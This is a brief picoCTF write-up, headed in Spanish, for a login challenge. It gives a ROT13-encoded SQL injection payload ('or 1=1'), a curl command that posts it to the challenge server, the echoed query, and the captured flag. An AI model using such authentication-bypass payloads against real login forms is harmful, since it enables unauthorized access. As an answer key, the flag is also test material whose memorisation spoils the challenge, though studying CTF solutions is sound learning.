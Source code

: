 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
## Solución
```bash
' be 1=1;
# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}

```

```bash
victormcm-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}</p>victormcm-picoctf@webshell:~$ 
```
## Notas Adicionales
Usa rot 13
## Referencias